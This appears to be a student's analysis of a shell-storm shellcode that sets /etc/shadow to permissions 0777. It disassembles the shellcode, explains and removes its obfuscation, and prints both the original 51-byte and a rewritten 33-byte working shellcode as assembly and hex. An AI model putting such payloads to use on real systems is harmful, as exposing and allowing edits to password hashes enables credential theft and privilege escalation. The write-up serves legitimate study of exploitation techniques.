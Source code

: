 # Overview

The original /etc/shadow permissions are set to 640, so this command will reset permissions back to the default on Ubuntu.
```bash
chmod 640 /etc/shadow
```

Here, I chose this shellcode from [http://shell-storm.org/shellcode/files/shellcode-875.php](http://shell-storm.org/shellcode/files/shellcode-875.php). The note says that it is a bit obfuscated, so I thought it would be interesting to see what this means at an instruction level. I will be removing the obfuscation, so the extra credit shouldn't count for making this one shorter, I just wanted to analyze this piece of assembly to understand some techniques for obfuscation.

# Disassembly

Here is the disassembly commented with my quick notes. I see they are obfuscating the string "adow" and using techniques such as `mov ebx, eax; xor eax, ebx` to perhaps obfuscate an `xor eax, eax`.

```x86asm
section .text
global _start

_start: 
    mov ebx, eax
    xor eax, ebx            ; = xor eax, eax
    push dword eax

    ; push obfuscated "adow" string
    mov esi, 0x563a1f3e
    add esi, 0x21354523
    mov dword [esp-4], esi              ; "adow"

    mov dword [esp-8], 0x68732f2f       ; "hs//"
    mov dword [esp-12], 0x6374652f      ; "cte/"
    sub esp, 12
    mov ebx,esp
    
    push word  0x1ff ; permissions 0777
    pop cx

    mov al,0xf  ; chmod()
    int 0x80

```

Shellcode (length: 51 bytes)

```c
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f\x3a\x56\x81\xc6\x23\x45\x35\x21\x89\x74\x24\xfc\xc7\x44\x24\xf8\x2f\x2f\x73\x68\xc7\x44\x24\xf4\x2f\x65\x74\x63\x83\xec\x0c\x89\xe3\x66\x68\xff\x01\x66\x59\xb0\x0f\xcd\x80"
```

# Changes

I start the modifications by just xor'ing and removing the previous mov instruction to set eax to 0x0.

```x86asm
; mov ebx, eax
; xor eax, ebx            ; = xor eax, eax
xor eax, eax
```

Next I remove the deobfuscated string, and change the mov instructions to push instructions in order to get the string "/etc//shadow" onto the stack.

```x86asm
; ; push obfuscated "adow" string
; mov esi, 0x563a1f3e
; add esi, 0x21354523
; mov dword [esp-4], esi              ; "adow"
; mov dword [esp-8], 0x68732f2f       ; "hs//"
; mov dword [esp-12], 0x6374652f      ; "cte/"
; sub esp, 12
push 0x776f6461         ; "woda"
push 0x68732f2f         ; "hs//"
push 0x6374652f         ; "cte/"
```

The rest of the instructions are the same, however, I also added a call to exit() so the shellcode exits gracefully. Since we can assume the chmod returns the value of 0, I will increment it's value to reference the exit syscall.

```x86asm
inc eax
int 0x80
```

# New Disassembly + Shellcode

```x86asm
section .text
global _start

_start: 
    ; mov ebx, eax
    ; xor eax, ebx            ; = xor eax, eax
    xor eax, eax
    
    push dword eax

    ; ; push obfuscated "adow" string
    ; mov esi, 0x563a1f3e
    ; add esi, 0x21354523
    ; mov dword [esp-4], esi              ; "adow"
    ; mov dword [esp-8], 0x68732f2f       ; "hs//"
    ; mov dword [esp-12], 0x6374652f      ; "cte/"
    ; sub esp, 12
    push 0x776f6461         ; "woda"
    push 0x68732f2f         ; "hs//"
    push 0x6374652f         ; "cte/"

    mov ebx,esp
    
    push word  0x1ff ; permissions 0777
    pop cx

    mov al,0xf  ; chmod()
    int 0x80

    inc eax
    int 0x80
```

New Shellcoe (Lenth: 33)

```c
"\x31\xc0\x50\x68\x61\x64\x6f\x77\x68\x2f\x2f\x73\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\x68\xff\x01\x66\x59\xb0\x0f\xcd\x80\x40\xcd\x80"
```


